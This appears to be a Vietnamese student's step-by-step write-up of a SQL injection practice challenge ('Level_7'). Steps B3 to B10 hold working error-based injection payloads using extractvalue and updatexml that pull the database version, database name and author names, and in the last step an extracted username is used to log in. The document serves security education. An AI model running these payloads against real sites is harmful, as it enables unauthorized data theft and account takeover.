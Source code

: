 # <div align="center"><p> SQL-Injection/Level_7</p></div>
 ## Họ và tên: Mai Thị Hoàng Yến
 ## Ngày báo cáo: Ngày 05/5/2022
 ### MỤC LỤC
   [SQL-Injection](#gioithieu)
   
### Nội dung báo cáo 
#### SQL-Injection <a name="gioithieu"></a>
- B1: Đây là màn hình chính của trang web level_7. Trang web cho chúng ta biết thêm thông tin đó là tên table `level7_news` và cột là `autor`.

  ![image](https://user-images.githubusercontent.com/101852647/166922826-3e7e477b-7dfc-4333-9455-9df038682065.png)
  
- B2: Bắt đầu nhập thử `1` ta thấy trang web trả về cho chúng ta trang thông tin .

  ![image](https://user-images.githubusercontent.com/101852647/166923381-2f39c5cb-359b-4c5b-90b4-9226dd0dd284.png)

- B3: Ta thử chèn thêm dấu ' thì trang web trả về lỗi.

  ![image](https://user-images.githubusercontent.com/101852647/166923474-9c01ee61-b909-41d0-b0ad-3bda97480a3c.png)

- B4: Tiếp tục ta thử chèn câu lệnh `1%') union slect 1,2 from level7_news#` Nhưng trả web trả về thông báo có thứ gì đó không ổn.

  ![image](https://user-images.githubusercontent.com/101852647/167061461-1abbd29e-9e97-43ea-9898-0d9769926480.png)

- B5: Ta sẽ dựa trên ERROR BASE để khai thác thử dùng câu lệnh `1%') union select extractvalue(0x0a,concat(0x0a,(select version()))) or ('%1` để tìm được phiên bản của nó.

  ![image](https://user-images.githubusercontent.com/101852647/167061631-5dfed4d3-7c95-43fe-8d1a-57db03df1f24.png)

- B6: Sử dụng câu lệnh `1%') union select extractvalue(0x0a,concat(0x0a,(select database()))) or ('%1` để tìm tên database. Kết quả trả tên database về `hackit`

  ![image](https://user-images.githubusercontent.com/101852647/167061873-f92ca2bc-190d-4622-b5c2-a5503e14af95.png)

- B7: Ta có thể dùng updatexml hoặc extractvalue để khai thác đều được nên ở đây tôi đã thử sử dụng câu lệnh `1%') union select updatexml(null,concat(0x3a,(select autor from level7_news limit  1 OFFSET 0)),null) or ('%1` để khai thác. Kết quả trả về ` site_admin`.

  ![image](https://user-images.githubusercontent.com/101852647/167062167-f0663de1-5f21-4df9-b22c-7ff7a2eabd67.png)

- B8: sử dụng câu lệnh `1%') union select updatexml(null,concat(0x3a,(select autor from level7_news limit  1 OFFSET 1)),null) or ('%1`. Kết quả trả về `press`.

  ![image](https://user-images.githubusercontent.com/101852647/167062215-6fb8d0e1-383a-4191-9c16-b2203bbf2bf6.png)

- B9: sử dụng câu lệnh `1%') union select updatexml(null,concat(0x3a,(select autor from level7_news limit  1 OFFSET 2)),null) or ('%1`. Kết quả trả về `TestUserforg00gle`

  ![image](https://user-images.githubusercontent.com/101852647/167062267-1264c299-a976-458a-9ee9-ca45240dfdfe.png)

- B10: sử dụng câu lệnh `1%') union select updatexml(null,concat(0x3a,(select autor from level7_news limit  1 OFFSET 3)),null) or ('%1`. Kết quả trả về `apple`.

  ![image](https://user-images.githubusercontent.com/101852647/167062329-1aea7534-705e-4151-a7a9-461e29af598c.png)
  
- B11: Ta sẽ thử lần lượt với các kết quả và nhận thấy rằng kết quả `TestUserforg00gle` đăng nhập thành công.

  ![image](https://user-images.githubusercontent.com/101852647/167062438-9ae9847e-4c2c-416a-8a0e-6d9a9ae0fa9d.png)

